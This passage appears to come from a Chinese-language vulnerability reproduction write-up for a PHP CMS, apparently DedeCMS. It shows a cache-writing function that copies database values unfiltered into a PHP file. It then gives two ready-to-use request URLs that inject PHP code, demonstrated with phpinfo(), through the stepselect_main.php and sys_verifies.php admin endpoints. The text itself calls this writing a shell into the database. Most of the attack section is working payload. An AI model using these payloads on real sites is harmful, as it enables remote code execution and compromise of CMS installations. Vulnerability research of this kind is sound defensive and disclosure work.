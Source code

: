 ```
            if($nrow['issign']==2) $tenum = true;
        }
        if ($tenum) $dsql->ExecuteNoneQuery("UPDATE `#@__stepselect` SET `issign`=2 WHERE egroup='$egroup'; ");
        fwrite($fp,'?'.'>');
        fclose($fp);
        if(empty($issign)) WriteEnumsJs($egroup);
    }
    return '成功更新所有枚举缓存！';
} 
```

可以看到，直接从数据库中读取并写入php文件中，从数据库中取出后并没有经过过滤。

将shell写进数据库中

```
http://0-sec.org/dede/stepselect_main.php?action=addenum_save&ename=123&egroup=;phpinfo();//&islogin=1 
```

![image](img/00b33706d4d635d7ec6e9855dcbc5fe4.png)

### 复现

因为包含是在同一个文件，所以直接输入

```
http://0-sec.org/dede/sys_verifies.php?action=getfiles&refiles[]=123&refiles[]=\%22;phpinfo();die();// 
```

![image](img/0075e3e74b819144384c5302192c1e96.png)